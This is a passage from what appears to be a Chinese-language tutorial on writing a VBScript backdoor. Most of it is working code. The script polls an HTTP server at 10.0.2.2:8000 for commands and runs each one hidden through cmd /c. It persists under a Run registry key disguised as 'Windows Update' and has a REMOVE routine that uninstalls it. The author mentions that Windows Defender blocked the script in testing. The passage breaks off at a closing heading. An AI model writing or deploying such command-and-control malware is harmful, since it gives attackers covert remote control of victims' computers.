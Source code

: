 和“无限重启”脚本一样，这个脚本会自动安装到计算机上。然而，由于安装机制非常类似于我所说的无限重启脚本，我就不赘述了。我将只关注与 HTTP 服务器通信以执行命令的部分。

首先，我将定义一个指向 HTTP 服务器及其相应端口的 Const 变量，以及一个名为`done`并设置为`False`的布尔变量:

```
Const server = "http://10.0.2.2:8000/command.txt"[ ... ]done = False
```

然后我会设置一个 Do 循环

```
Do Until done
	[ ... ]
Loop
```

在这个循环中，我将连接到 HTTP 服务器，打开一个对文本文件的 GET 请求，其中包含要执行的命令:

```
Set XMLHTTP = CreateObject("MSXML2.XMLHTTP.3.0")
XMLHTTP.open "GET", server, False
XMLHTTP.send
command = XMLHTTP.responseText
```

在获取命令的文本文件并存储在`command`变量中后，将使用一点条件逻辑来决定是否退出脚本的执行、卸载脚本或执行命令:

```
If InStr(command, "EXIT") Then
    done = True
End If

If InStr(command, "REMOVE") Then
    WshShell.RegDelete "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update"
    Set delete_me = oFileSystem.CreateTextFile(oFileSystem.GetSpecialFolder(2) & "\romcs.bat")
    delete_me.WriteLine("@echo off")
    delete_me.WriteLine("timeout 10")
    delete_me.Close()

    WshShell.Run oFileSystem.GetSpecialFolder(2) & "\romcs.bat"
    done = True
Else
    WshShell.Run "cmd /c " & command, 0, True
End If

WScript.Sleep(15000)
```

如果`command`变量有一个`EXIT`，脚本将关闭，或者如果`command`变量有一个`REMOVE`，脚本将尝试卸载。否则，脚本将通过`cmd /c <command to execute>`运行命令，并休眠大约十五(15)秒。

请注意， *Windows Defender* 或其他一些反病毒工具可能会试图阻止脚本的`WshShell.Run`部分执行代码(正如我测试这些脚本时发生的情况)。

# 最后的想法
